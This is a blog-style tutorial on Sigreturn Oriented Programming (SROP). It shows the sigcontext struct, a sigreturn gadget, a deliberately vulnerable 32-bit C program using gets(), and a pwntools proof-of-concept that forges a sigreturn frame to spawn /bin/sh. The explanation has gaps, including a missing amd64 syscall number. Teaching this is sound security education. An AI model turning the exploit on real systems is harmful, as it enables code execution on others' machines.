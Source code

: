 ```yaml
---
layout: post
title: How to SROP
author: adamt
---
```


Sigreturn Orientated programming (SROP) is a cool exploitation technique that allows an attacker to controll the entire state of the CPU with a single syscall and some stack space, possibly leading to code execution.


[https://github.com/adamtanana/SROP-walkthrough](tl;dr)

How-to
------------------

SROP is very similar to ROP, in which by controlling the stack and the instruction pointer, the attacker is able to influence the control flow of the program through a sequence of gadgets (Small sets of instructions ending in a `ret` or `call` instruction). 
<br />
In cases where there aren't sufficient enough gadgets, or no gadgets that allow the attacker to execute arbritrary code, SROP may be a possible solution.  
SROP works by pushing a forged `sigcontext` structure to the stack, and then overwriting the return address with the location of a gadget(s) that will allow the attacker to execute the sigreturn syscall. 

An example sigconext struct can be seen here from x86 Linux libc
<https://github.com/lattera/glibc/blob/master/sysdeps/unix/sysv/linux/x86/bits/sigcontext.h#L95>
```c
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

An example of the kind of gadget needed for SROP exploits can always be found in the VDSO memory area on x86-Linux systems
```c
  pop     eax
  mov     eax, 0x77
  int     0x80;
  nop
  lea     esi, [esi+0]
```
This will execute a sigreturn syscall. <br />

Here is an example of SROP in a 32 bit linux environment. Luckily `pwntools` comes handy with a SROP library which allows us to construct a sigcontext for any architecture without needing to worry about the exact ordering and sizing of each element. I'll utilise this below 

Example 32bit vulnerable code
```C
#include <stdio.h>
#include <stdlib.h>

static char* dodgy = "/bin/sh";

void func() {
    __asm__(  // all typical things found via a libc leak, or a large binary
          "mov $0x77, %eax;"
          "ret;"
          "int $0x80"
            );
}
void vuln() {
    printf("Hey look its a cheeky gadget\n");
    printf("func: %p\n", func);
    printf("/bin/sh: %p\n", dodgy);

    char buf[4];
    gets(buf);
}

int main() {
    vuln();
}
```
The code has the 3 requirements needed to leverage the SROP technique.

- Gadget(s) that will call the sigreturn syscall (In i386 linux this is syscall number 0x77, in amd64 linux it is )
- Enough Stack space to place an entire `sigcontext` struct
- Somewhere to jump to after the syscall has been evoked (in this case we can just jump to the syscall(int 0x80) gadget since we can ensure all registers are set to the required values to execute any syscall)

We can construct our sigreturn frame, setting the relevant registers required to execute an execve syscall, and then gain shell via a single ROP Gadget. Below is a POC

```python
from pwn import *


def leak(p):                               # Leak the address of our planted  
    p.recvuntil("func: 0x")
    func = int(p.recvline(), 16)

    p.recvuntil("/bin/sh: 0x")
    binsh = int(p.recvline(), 16)

    log.info("Func 0x%x. /bin/sh 0x%x" % (func, binsh))

    return func, binsh

def main():
    context.arch = 'i386'
    p = process("./srop32")

    func, binsh = leak(p)

    moveax = func + 13
    int0x80 = func + 19

    frame = SigreturnFrame(kernel='amd64') # Construct our Sig Return Frame
    frame.eax = constants.SYS_execve       # Syscall to call
    frame.ebx = binsh                      # First argument to execve
    frame.eip = int0x80                    # Return here after the syscall


    payload = 'A' * 16                     # Overflow the buffer
    payload += p32(moveax)                 # Mov 0x77 into eax (SYS_sigreturn)
    payload += p32(int0x80)                # Evoke the syscall
    payload += str(frame)                  # Fill the stack with our sigreturn frame
    p.sendline(payload)


    p.interactive()

if __name__ == "__main__":
    main()
```
